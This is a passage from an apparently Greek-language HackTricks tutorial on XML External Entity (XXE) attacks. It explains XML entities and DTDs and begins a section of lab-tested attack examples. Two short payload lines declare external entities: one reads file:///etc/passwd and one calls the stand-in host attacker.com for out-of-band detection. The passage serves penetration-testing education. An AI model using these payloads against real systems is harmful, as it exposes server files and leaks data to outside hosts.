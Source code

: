 # XXE - XEE - Εξωτερική Οντότητα XML

<details><summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>


## Βασικά στοιχεία XML

Το XML είναι μια γλώσσα σήμανσης σχεδιασμένη για την αποθήκευση και μεταφορά δεδομένων, παρουσιάζοντας μια ευέλικτη δομή που επιτρέπει τη χρήση ετικετών με περιγραφικά ονόματα. Αντίθετα από το HTML, δεν περιορίζεται σε ένα σύνολο προκαθορισμένων ετικετών. Η σημασία του XML έχει μειωθεί με την άνοδο του JSON, παρά τον αρχικό του ρόλο στην τεχνολογία AJAX.

- **Αναπαράσταση Δεδομένων μέσω Οντοτήτων**: Οι οντότητες στο XML επιτρέπουν την αναπαράσταση δεδομένων, συμπεριλαμβανομένων ειδικών χαρακτήρων όπως `&lt;` και `&gt;`, που αντιστοιχούν σε `<` και `>` για να αποφευχθεί η σύγκρουση με το σύστημα ετικετών του XML.

- **Ορισμός Στοιχείων XML**: Το XML επιτρέπει τον ορισμό τύπων στοιχείων, καθορίζοντας πώς πρέπει να δομηθούν τα στοιχεία και ποιο περιεχόμενο μπορούν να περιέχουν, από οποιοδήποτε είδος περιεχομένου έως συγκεκριμένα παιδικά στοιχεία.

- **Ορισμός Τύπου Εγγράφου (DTD)**: Οι DTD είναι κρίσιμοι στο XML για τον ορισμό της δομής του εγγράφου και των τύπων δεδομένων που μπορεί να περιέχει. Μπορούν να είναι εσωτερικοί, εξωτερικοί ή συνδυασμένοι, καθοδηγώντας τον τρόπο μορφοποίησης και επικύρωσης των εγγράφων.

- **Προσαρμοσμένες και Εξωτερικές Οντότητες**: Το XML υποστηρίζει τη δημιουργία προσαρμοσμένων οντοτήτων εντός ενός DTD για ευέλικτη αναπαράσταση δεδομένων. Οι εξωτερικές οντότητες, που ορίζονται με ένα URL, προκαλούν ανησυχίες ασφαλείας, ιδιαίτερα στο πλαίσιο των επιθέσεων XML External Entity (XXE), που εκμεταλλεύονται τον τρόπο με τον οποίο οι αναλυτές XML χειρίζονται εξωτερικές πηγές δεδομένων: `<!DOCTYPE foo [ <!ENTITY myentity "value" > ]>`

- **Ανίχνευση XXE με Οντότητες Παραμέτρων**: Για την ανίχνευση ευπάθειας XXE, ειδικά όταν οι συμβατικές μέθοδοι αποτυγχάνουν λόγω μέτρων ασφαλείας του αναλυτή, μπορούν να χρησιμοποιηθούν οντότητες παραμέτρων XML. Αυτές οι οντότητες επιτρέπουν τη χρήση τεχνικών ανίχνευσης εκτός πεδίου, όπως η ενεργοποίηση αναζητήσεων DNS ή αιτημάτων HTTP σε έναν ελεγχόμενο τομέα, για την επιβεβαίωση της ευπάθειας.
- `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>`
- `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://attacker.com" > ]>`


## Κύριες επιθέσεις

**[Οι περισσότερες από αυτές τις επιθέσεις δοκιμάστηκαν χρησιμοποιώντας τα εκπληκτικά εργαστήρια XEE της Portswiggers: https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)**

### Νέο τεστ Οντότητας

Σε αυτήν την επίθεση θα δοκιμάσω εάν μια απλή νέα δήλωση ΟΝΤΟΤΗΤΑΣ λειτουργεί.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
<productId>&toreplace;</productId>
<storeId>1</storeId>
</stockCheck>
```